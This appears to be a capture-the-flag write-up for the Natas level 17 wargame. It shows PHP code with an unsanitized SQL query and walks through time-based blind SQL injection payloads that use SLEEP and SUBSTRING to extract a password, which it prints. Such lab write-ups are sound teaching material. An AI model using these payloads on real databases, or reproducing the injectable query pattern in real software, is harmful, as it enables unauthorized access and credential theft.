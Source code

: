 # Natas Level 17
This level deals with time based SQL Injection.

## Quest
We are greeted with a simple webpage
![](./images/Level17.png)

Below is the backend code 
```php
<?
/*
CREATE TABLE `users` (
  `username` varchar(64) DEFAULT NULL,
  `password` varchar(64) DEFAULT NULL
);
*/

if(array_key_exists("username", $_REQUEST)) {
    $link = mysql_connect('localhost', 'natas17', '<censored>');
    mysql_select_db('natas17', $link);
    
    $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\"";
    if(array_key_exists("debug", $_GET)) {
        echo "Executing query: $query<br>";
    }

    $res = mysql_query($query, $link);      // We get no output whatsoever
    if($res) {
    if(mysql_num_rows($res) > 0) {
        //echo "This user exists.<br>";
    } else {
        //echo "This user doesn't exist.<br>";
    }
    } else {
        //echo "Error in query.<br>";
    }

    mysql_close($link);
} else {
?>
```
<br/><br/>
## Solution
Reading the code, we can say that we are not presented with any output whatever maybe our input.
> So, for now only one thing comes to my mind - <span id=green>Time Based SQL Injection.</span>

<br/>
Our Payload -> `username=natas18" AND SLEEP(10);#`<br/>
We recieve a delayed response if username `natas18` exists, our response comes after 10 seconds
![](./images/Level17_solution.png)
<br/><br/>

Now we build a little complex query:<br/>
  Our Payload -> `username=natas18" AND IF(ASCII('a')=97, SLEEP(10),0);#`
  
If username `natas18` exists and ascii code of 'a' is 97, return a delayed response. (We get delayed response)
![](./images/Level17.1_solution.png)
<br/><br/>

So, our Final payload to smuggle passwords is as follow:<br/>
    `username=natas18" AND IF(ASCII(SUBSTRING(password,1,1))=97,SLEEP(10),0);#`
    
![](./images/Level17.2_solution.png)
Above, we found that first character of our password has ascii code 120, i.e. `x`. (using Burp intruder)<br/>
Also note that we filter on "_Response recieved_" column, it conveys the time interval b/w request and response.

Burp intruder settings are exactly same as we did in [Level 15](./Level15.md)

Repeat this 32 times, and we have our password. -> xvKIqDjy4OPv7wCRgDlmj0pFsCsDjhdP

<br/>

[<< Back](https://grey-fish.github.io/Natas/index.html)
